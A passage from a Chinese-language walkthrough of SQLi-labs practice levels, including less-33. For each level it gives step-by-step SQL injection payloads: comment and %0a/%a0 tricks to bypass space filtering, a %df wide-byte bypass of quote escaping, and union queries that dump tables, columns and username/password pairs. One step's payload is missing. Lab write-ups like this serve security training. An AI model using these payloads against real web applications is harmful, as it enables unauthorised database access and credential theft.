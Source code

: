 ![image-20201115151632936](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114734.png)

##### 输出点：

payload:`?id=100')union%0bselect%a01,2,3||('1`回显如下。所以1,2为输出点

![image-20201115151829917](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114735.png)

##### 注入方式

采用 /*%a0\*/来绕过空格

##### 注入步骤

- 判断列数`payload:	` 4的时候页面回显报错，所以判断出列数为3列
- 联合查询，判断各列输出的位置`payload:?id=0')/*%0a*/uNion/*%0a*/sEleCt/*%0a*/1,2,3||('1`
- 获取数据库`payload:?id=0')/*%0a*/uNion/*%0a*/sEleCt/*%0a*/1,database(),3or('`
- 爆数据表`payload:?id=0')/*%0a*/UNion/*%0a*/sEleCt/*%0a*/1,group_concat(table_name),3/*%0a*/from/*%0a*/information_schema.tables/*%0a*/where/*%0a*/table_schema=database()or('1`
- 爆users表的数据字段`payload：?id=0')/*%0a*/uNIon/*%0a*/sELect/*%0a*/1,group_concat(column_name),3/*%0a*/from/*%0a*/information_schema.columns/*%0a*/where/*%0a*/table_name='users'or('1`
- 在爆出的字段中里面看到了password和username，于是爆数据`?id=0')/*%0a*/uniOn/*%0a*/sELect/*%0a*/1,group_concat(username,'~',password),3/*%0a*/from/*%0a*/users/*%0a*/where('1`username和password中间使用~来分隔

## less-33

##### 注入类型

宽字节注入

##### 输入点：

输入`?id=ab'`回显如下，其使用`/`来过滤了`'`。通过/来转义

![image-20201110195700733](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114742.png)

##### 输出点

输入`?id=ab%df%27`。回显如下%df可以将后面的斜杠给消除掉(由于编码的漏洞，gbk编码会认为2个字符为一个汉字，这样%df和\就会构成一个汉字，这样\就会被绕过)![image-20201110195953756](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114743.png)

##### 注入方式

使用%df来过滤\，以此来成功通过`'`来闭合前面的语句，再通过union来注入

##### 注入步骤

- 判断列数`payload:?id=ab%df%27 order by 3 --+` 的时候页面回显报错，所以判断出列数为3列
- 联合查询，判断各列输出的位置`payload:?id=-1%df%27 union select 1,2,3--+`
- 获取数据库`payload:?id=-1%df%27 union select 1,database(),3--+`
- 爆数据表`payload:?id=-1%df%27 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+`
- 爆users表的数据字段`payload：?id=-1%df%27%20union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_name=0x7573657273%20%23`
- 在爆出的字段中里面看到了password和username，于是爆数据`?id=-1%df%27 union select 1,group_concat(username,'~',password),3 from users--+`username和password中间使用~来分隔
